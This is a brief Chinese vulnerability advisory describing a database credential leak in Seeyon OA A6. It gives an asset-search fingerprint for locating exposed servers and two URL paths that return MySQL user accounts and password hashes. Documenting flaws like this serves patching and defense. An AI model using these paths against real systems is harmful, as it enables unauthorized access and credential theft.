 # 致远OA A6 createMysql.jsp 数据库敏感信息泄露

## 漏洞描述

致远OA A6 存在数据库敏感信息泄露，攻击者可以通过访问特定的URL获取数据库账户以及密码 MD5

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘 

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

当访问如下URL时执行了SQL语句 `select  *from mysql.user;` 进行查询并返回到页面中

```plain
/yyoa/createMysql.jsp
/yyoa/ext/createMysql.jsp
```

![img](/assets/PeiQi-Wiki/img/1645629877032-94a29b56-2632-4bff-8fbc-75dac6ab2ae6.png)



![img](/assets/PeiQi-Wiki/img/1645629883438-65aaa8f2-5d16-48a7-a92b-a5e37a737f71.png)